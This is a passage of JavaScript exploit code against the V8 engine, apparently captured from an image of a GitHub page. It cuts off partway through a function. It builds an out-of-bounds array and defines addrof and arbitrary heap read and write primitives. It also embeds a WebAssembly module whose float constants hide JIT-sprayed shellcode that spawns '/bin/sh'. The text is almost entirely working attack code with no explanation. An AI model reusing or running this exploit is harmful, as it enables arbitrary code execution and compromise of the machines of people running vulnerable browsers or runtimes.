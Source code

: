 ```jsx
        return Object.prototype;
    }
});
function main(p) {
    f(p);
    for (let i = 0; i < ITERATIONS; i++) { }
}
for (let i = 0; i < ITERATIONS; i++) { main(empty); a.pop(); }
main(empty);
main(empty);
main(p);
print('[+] Length of oob_arr: 0x' + oob_arr.length.toString(16));
let vic_arr = new Array(128); // Victim float array
vic_arr[0] = 1.1;
let obj_arr = new Array(256); // Object array
obj_arr[0] = {};

var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 12, 1, 96, 0, 8, 124, 124, 124, 124, 124, 124, 124, 124, 3, 2, 1, 0, 7, 9, 1, 5, 109, 97, 105, 110, 50, 0, 0, 10, 76, 1, 74, 0, 68, 106, 59, 88, 144, 144, 144, 235, 7, 68, 104, 47, 115, 104, 0, 91, 235, 7, 68, 104, 47, 98, 105, 110, 89, 235, 7, 68, 72, 193, 227, 32, 144, 144, 235, 7, 68, 72, 1, 203, 83, 144, 144, 235, 7, 68, 72, 137, 231, 144, 144, 144, 235, 7, 68, 72, 49, 246, 72, 49, 210, 235, 7, 68, 15, 5, 144, 144, 144, 144, 235, 7, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var f = wasmInstance.exports.main2;
f();

function oob_read32(i) { // Read 32 bits at offset from oob_arr elements
    i -= 2;
    if (i % 2 == 0) return lower(ftoi(oob_arr[(i >> 1)]));
    else return upper(ftoi(oob_arr[(i >> 1)]));
}

function oob_write32(i, x) { // Write 32 bits at offset from oob_arr elements
    i -= 2;
    if (i % 2 == 0) oob_arr[(i >> 1)] = itof((oob_read32(i ^ 1) << 32n) + x);
    else oob_arr[(i >> 1)] = itof((x << 32n) + oob_read32(i ^ 1));
}

function addrof(o) { // Get heap address of object
    obj_arr[0] = o;
    vic_arr_mapptr = oob_read32(36);
    console.log(vic_arr_mapptr.toString(16));
    obj_arr_mapptr = oob_read32(430);
    console.log(obj_arr_mapptr.toString(16));
    oob_write32(430, vic_arr_mapptr); // obj_arr->map = vic_arr->map
    let addr = obj_arr[0];
    oob_write32(430, obj_arr_mapptr);
    return ftoi(addr);
}

function heap_read64(addr) { // Read 64 bits at arbitrary heap address
    vic_arr_elemptr = oob_read32(38);
    new_vic_arr_elemptr = (addr - 0x8n + 1n);
    oob_write32(38, new_vic_arr_elemptr);
    let data = ftoi(vic_arr[0]);
    oob_write32(38, vic_arr_elemptr);
    return data;
}

function heap_write64(addr, val) { // Write 64 bits at arbitrary heap address
    vic_arr_elemptr = oob_read32(38);
```